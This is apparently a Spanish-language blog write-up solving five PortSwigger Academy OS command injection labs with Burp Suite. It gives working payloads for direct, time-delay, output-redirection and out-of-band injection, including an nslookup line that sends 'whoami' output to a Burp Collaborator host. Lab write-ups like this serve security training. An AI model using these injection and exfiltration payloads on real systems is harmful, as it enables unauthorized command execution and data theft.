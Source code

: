 ```yaml
---
layout: default
title: "OS command injection - PortSwigger"
permalink: /command-injection-ps/
---
```


# OS command injection

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

## Indice



## 1. Lab: OS command injection, simple case

```text
Esta práctica de laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock de productos.

La aplicación ejecuta un comando de shell que contiene los ID de tienda y producto proporcionados por el usuario, y devuelve la salida sin procesar del comando en su respuesta.

Para resolver la práctica de laboratorio, ejecute el whoamicomando para determinar el nombre del usuario actual.
```

Como nos dice la informacion, buscaremos un articulo cualquiera, y le damos clic en el boton **Check stock** y lo interceptamos con el burpsuite y lo enviamos al **Repeater**.

![](img1.png)

Como podemos ver, todo ocurre de manera normal, ahora intentaremos ejecutar comandos agregandole **& whoami**.

![U](img2.png)

Si lo enviamos así no va a obtener nada, ya que el **&** lo esta considerando como el cierre del parametro y el inicio de otro asi que lo que haremos será seleccion todo el parametro **1&whoami** y encodearlo con las teclas **Ctrl + U**.

![](img3.png)

Como podemos ver, si ejecutó el comando **whoami**, y si vamos a el sitio web, nos damos cuenta que si figura como resuelto.

![](img4.png)

## 2. Lab: Blind OS command injection with time delays

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para provocar un retraso de 10 segundos.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.

![](img5.png)

E interceptamos el paquete con burpsuite y lo enviamos al reapiter.

![](img6.png)

Como podemos ver, no obtener ninguna respuesta al realizar el comando, ahora intentaremos generar un retardo en la solicitud agregandole un **ping -c 10 127.0.0.1**.

![](img7.png)

Lo cual logró generar el retrazo, ya que generamos el comando ping dentro de los caracteres **''$(''** y **'')'** que sirven para ejecutar strings dentro de strings.

![](img8.png)

## 3. Lab: Blind OS command injection with output redirection  

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puede utilizar la redirección de salida para capturar la salida del comando. Hay una carpeta en la que se puede escribir en:

/var/www/images/

La aplicación sirve las imágenes para el catálogo de productos desde esta ubicación. Puede redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de la imagen para recuperar el contenido del archivo.

Para resolver el laboratorio, ejecute el whoamicomando y recupere el resultado.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.

![](img9.png)

E interceptamos el paquete con burpsuite y lo enviamos al reapiter.

![](img10.png)

Como en el ejemplo anterior, no devuelve ningun resultado lo que haremos será ejecutar el comando **whoami** y lo enviaremos a la ruta **/var/www/images/**.

```bash
$(whoami > /var/www/images/whoami.txt) #Con url encode (seleccionar texto y Ctrl + u)
```

Lo cual de deberia mostrar en la url:

```bash
https://acfb1fb31f59b03d80493c9e006000ac.web-security-academy.net/images/whoami.txt
```

Ahora realizaremos esto en el repeater en el parametro **message** y lo enviamos.

![](img11.png)

Y ahora accedemos por navegador a la url para revisar que el comando de ejecutó correctamente:

![](img12.png)

Ahora si vamos a la pagina principal del laboratorio vemos que se realizó correctamente.

![](img13.png)

## 4. Lab: Blind OS command injection with out-of-band interaction

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asincrónica y no tiene ningún efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para emitir una búsqueda de DNS en Burp Collaborator.
```

Entonces, necesitamo buscar la seccion de **Burp Collaborator**, para ello nos ubicamos en la pestaña **Burp** y en la opcion **Burp Collaborator Client**.  y le damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net
```

Ahora, vamos a interceptar el paquete del feedback y lo enviamos al repeater editando el parametro **message** por lo siguiente.

```bash
$(nslookup z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net)
```

Como se ve en la siguiente imagen:

![](img14.png)

Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.

![](img15.png)

Ahora verificamos en el home del laboratorio si lo completamos.

![](img16.png)

## 5. Lab: Blind OS command injection with out-of-band data exfiltration

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asincrónica y no tiene ningún efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, ejecute el whoamicomando y extraiga el resultado a través de una consulta de DNS a Burp Collaborator. Deberá ingresar el nombre del usuario actual para completar el laboratorio.
```

Como en el laboratorio entramos al **Burp Collaborator Client**, y damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net
```

Ahora interceptamos el paquete del feedback como en el ejemplo anterior y lo enviamos al repeater y para este caso, debemos obtener la salida de un comando así que anidaremos dos comandos usando esta vez el caracter **`** (tilde invertida) y el payload será de la siguiente manera.

```bash
$(nslookup `whoami`.8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net)
```

Lo cual en el intruder quedaria de la siguiente manera y lo enviamos.

![](img17.png)

Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.

![](img18.png)

Y como podemos ver la consulta dns se hizo a **peter-xR6lKE.8v4zmihu5jygfrhzktqssad7gympae.burpcollaborator.net**. Entonces la respuesta del comando whoami sería.

```bash
peter-xR6lKE
```

Ahora verificamos en el home del laboratorio si lo completamos y nos pide que ingresemos el valor que obtuvimos.

![](img19.png)

Y luego de ello podemos ver que tenemos el laboratorio resuelto al fin :D

![](img20.png)

## CONCLUSION

Estos ejercicios son un poco mas sencillos pero nos sirve para aprender las diferentes formas en la que se puede presentar un Command Injection, que aunque parezca poco todavia hay sitios webs que los usan, y obviamente la mayoria de estos son de modo a ciegas.



